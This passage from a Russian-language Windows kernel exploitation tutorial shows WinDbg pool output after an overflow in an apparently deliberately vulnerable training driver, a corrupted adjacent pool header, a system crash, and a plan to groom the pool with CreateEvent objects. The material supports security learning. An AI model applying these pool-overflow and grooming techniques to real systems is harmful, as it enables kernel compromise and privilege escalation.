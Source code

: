 Поменяем длину на 0x200 и посмотрим, что будет:

```js
kd> !pool 0x850C4D50
Pool page 850c4d50 region is Unknown
 850c4000 size:   48 previous size:    0  (Allocated)  Vad 
 850c4048 size:   48 previous size:   48  (Allocated)  Vad 
 850c4090 size:   48 previous size:   48  (Allocated)  Vad 
 850c40d8 size:   48 previous size:   48  (Allocated)  Vad 
 850c4120 size:   48 previous size:   48  (Allocated)  Vad 
 850c4168 size:   28 previous size:   48  (Allocated)  FSro
 850c4190 size:   b8 previous size:   28  (Allocated)  File (Protected)
 850c4248 size:  128 previous size:   b8  (Allocated)  Ntfi
 850c4370 size:   98 previous size:  128  (Allocated)  MmCa
 850c4408 size:  168 previous size:   98  (Allocated)  CcSc
 850c4570 size:   68 previous size:  168  (Allocated)  FMsl
 850c45d8 size:   c8 previous size:   68  (Allocated)  Ntfx
 850c46a0 size:   b8 previous size:   c8  (Allocated)  File (Protected)
 850c4758 size:  128 previous size:   b8  (Allocated)  Ntfi
 850c4880 size:   98 previous size:  128  (Allocated)  MmCa
 850c4918 size:   28 previous size:   98  (Free)       CcSc
 850c4940 size:  140 previous size:   28  (Free )  Io   Process: 86db94b8
 850c4a80 size:  128 previous size:  140  (Allocated)  Ntfi
 850c4ba8 size:   b8 previous size:  128  (Allocated)  File (Protected)
 850c4c60 size:   c8 previous size:   b8  (Allocated)  Ntfx
 850c4d28 size:   20 previous size:   c8  (Free)       Io  
*850c4d48 size:  200 previous size:   20  (Allocated) *Hack
    Owning component : Unknown (update pooltag.txt)

850c4f48 doesn't look like a valid small pool allocation, checking to see
if the entire page is actually part of a large page allocation...

850c4f48 is not a valid large pool allocation, checking large session pool...
850c4f48 is not valid pool. Checking for freed (or corrupt) pool
Bad previous allocation size @850c4f48, last size was 40


kd> dd 850c4f48-8
ReadVirtual: 850c4f40 not properly sign extended
850c4f40  41414141 41414141 41414141 41414141
850c4f50  00000400 000000f8 00000000 00000000
850c4f60  00000000 00000000 00000001 00000000
850c4f70  00000000 400c001c 82746b40 00000000

A fatal system error has occurred.
```

Интересная вещь, которую нужно отметить - это как мы на самом деле можем контроилровать соседний заголовок с помощью нашего переполнения. Это уязвимость, которую мы будем эксплуатировать грумингом(?) предсказуемым образом, избавлясь от рандома в нашем пуле. Для этого упомянутый ранее CreateEvent подходит идеально, так как он имее тразмер 0x40, который идеально подойдёт для размера нашего пула 0x200
